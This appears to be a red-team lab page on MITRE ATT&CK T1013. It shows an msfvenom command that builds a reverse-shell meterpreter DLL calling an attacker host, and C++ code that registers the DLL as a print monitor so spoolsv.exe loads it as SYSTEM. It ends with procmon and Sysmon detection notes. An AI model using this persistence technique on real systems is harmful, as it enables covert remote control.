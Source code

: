 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1013: AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Writing and compiling a simple C++ code that will register the monitor port:

{% code-tabs %}
{% code-tabs-item title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to `%systemroot%` and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed by the spoolsvc:

![](../.gitbook/assets/monitor-loaddll.png)

![](../.gitbook/assets/monitor-loaddll2.png)

which eventually spawns a rundll32 with meterpreter payload, that initiates a connection back to the attacker:

![](../.gitbook/assets/rundll-connect.png)

![](../.gitbook/assets/monitor-shell-system.png)

The below confirms the procmon results explained above:

![](../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../.gitbook/assets/monitor-sysmon.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1013" %}

{% embed url="https://www.youtube.com/watch?v=dq2Hv7J9fvk" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx" %}




